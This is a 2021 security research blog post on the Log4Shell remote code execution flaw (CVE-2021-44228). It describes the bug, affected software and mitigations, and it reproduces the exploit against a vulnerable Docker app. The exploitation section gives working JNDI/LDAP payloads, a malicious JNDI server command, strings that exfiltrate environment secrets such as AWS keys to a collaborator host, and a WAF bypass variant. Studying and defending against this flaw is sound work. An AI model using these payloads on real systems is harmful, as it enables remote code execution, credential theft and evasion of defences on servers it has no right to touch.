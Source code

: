 ```yaml
---
layout: post
title:  "Apache Log4j RCE 0day: CVE-2021-44228"
date:   2021-12-11 16:00:00 +0700
categories: research
author: Quang Vo
tags: 0day, log4j, cve-2021-44228
description: Research analysis and develop a working exploit poc script 
---
```


Reference:
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java


## Introduction Apache Log4j and Description of the vulnerability
Apache Log4j is one of the most popular logging library, widely used in Java web applications and Apache products ( such as Apeche Struts, Apache Solr, ... ).

Because of the nature of the library is logging, the data being logged originates from user inputs. If the user input contains some special characters and logged by `Log4j`, the Java method `lookup` will be called to execute a user-defined remote class in the LDAP server.
This will eventually becomes RCE ( depends on environment configrations ) 

JDK versions greater than `6u211`, `7u201`, `8u191`, and `11.0.1` are not affected by the RMI attack vector. But LDAP attack vector can works with all versions of JAva due to deserialzation attack, the LDAP server will return a serialized object which will eventually get deserialized on victim's server. Remote Code Execution ( RCE ) depends on gadget availability in the Java classpath.

## Affected version 

Apache Log4j 2.x <= 2.15.0-rc1

## Affected Software

There have been reports said that Steam, Apple and Twitter vulnerable to this attack, and other softwares like:
- Apache Struts
- Apache Solr
- Elasticsearch
- Ghidra

...

## Exploitation

### 1. Reproduce with vulnerable app
Link to the vulnerable app that use `log4j`: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

Start the app:
```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Example of vulnerable code:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

}
```

Setup malicious [JDNI server](https://github.com/welk1n/JNDI-Injection-Exploit)

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned" -A "0.0.0.0"
```

Sending payload to the vulnerable web app:
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<ip>:1389/<payload>}'
```

Response from malicious JDNI server:

<img width="1117" alt="image" src="https://user-images.githubusercontent.com/37280106/145718737-a635ce03-5265-4b49-a3e6-3bfaf49a46e0.png">

Log from the vulnerable app:
```
2021-12-12 15:29:32.630  INFO 1 --- [nio-8080-exec-5] HelloWorld                               : Received a request for API version Reference Class Name: foo

```

### 2. Exploit steps

1. Data from user inputs get logged from the back-end that using `log4j`
2. User send malicious payload that get logged in server: `${jdni:ldap://<attacker_ip>/a` 
3. The Log4j vulnerablity triggered by this payload and server makes a request to `<attacker_ip>` server via JDNI 
4. The attacker's server response a path to a remote Java class file ( `https://attack-server/Exploit.class` ) which injected to victim's server process
5. The Injected payload got triggered, allows an attacker to gain remote code execution.

### 3. Extract environment from vulnerable server
```
${jdni:ldap://${env:USER}.collabolatorendpoint.net/a}
${jdni:ldap://${env:AWS_SECRET_ACCESS_KEY}.collabolatorendpoint.net/a}
${jdni:ldap://${env:VAULT_KEY}.collabolatorendpoint.net/a}
...
```

### 4. Bypass WAF ( Cloudflare, ... )

```
${${lower:j}dni:${lower:l}dap://${env:USER}.collabolatorendpoint.net/a}
```

## Mitigation
- Update to log4j version `2.15.0-rc2` 
- Block all untrusted outbound traffic
- Add "log4j.format.msg.nolookups=true" global configuration

